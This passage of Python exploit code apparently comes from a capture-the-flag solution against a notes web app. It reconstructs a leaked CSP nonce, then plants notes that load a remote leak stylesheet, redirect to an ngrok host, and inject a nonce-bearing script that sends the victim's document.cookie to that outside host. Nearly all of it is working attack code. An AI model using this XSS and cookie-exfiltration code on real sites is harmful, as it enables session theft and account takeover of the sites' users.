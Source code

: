 ```py
                    break
        if left == 0:
            # beginning
            remove_i = i
            nonce = new_substr[i]
            break
    if (len(nonce) == 0):
        print("no beginning - aborting")
        return 0
    while (len(nonce) < 32):
        new_substr = new_substr[0:remove_i] + new_substr[remove_i+1:]
        # print("new substr: " + str(new_substr))
        found = []
        for i in range(len(new_substr)):
            start_i = new_substr[i][0:2]
            if (nonce[-2:] == start_i):
                # print("found: " + start_i)
                found += [i]
        if (len(found) == 0):
            # start over from latest backup
            if (len(backup) > 0):
                nonce = backup[-1][0]
                found = backup[-1][1]
                new_substr = backup[-1][2]
                backup = backup[:-1]
            else:
                print("no backup - aborting")
                break
        if (len(found) > 0):
            if (len(found) > 1):
                print("found more than one: " + str(found))
                backup += [[nonce, found[1:], new_substr]]
            remove_i = found[0]
            nonce += new_substr[remove_i][-1]

        # input("nonce: " + nonce)

    return nonce

def login():
    r = s.post(url + '/login', data={'username': user, 'password': user})
    if r.status_code != 200:
        print("login failed")

def write_zero_note():
    r = s.post(url + '/write', data={'title':'meta', 'content': f'<meta http-equiv="refresh" content="0.0;url={ngrok_url}">'})
    share(0)

def write_first_note():
    r = s.post(url + '/write', data={'title':'linkstylesheet', 'content': '<link rel="stylesheet" href="https://unpkg.com/alemmi@x.x.x/leak.css"><input />'})
    share(1)

def share(num):
    r = s.get(f"{url}/share_diary/{num}")

def create_script_nonce(nonce):
    script = f"""<iframe name=asd srcdoc="<script nonce={nonce}>top.location='{ngrok_url}flag?flag='+encodeURI(document['cookie'])</script>"/>"""
    r = s.post(url + '/write', data={'title':'pwning', 'content': script})
    share(2)

```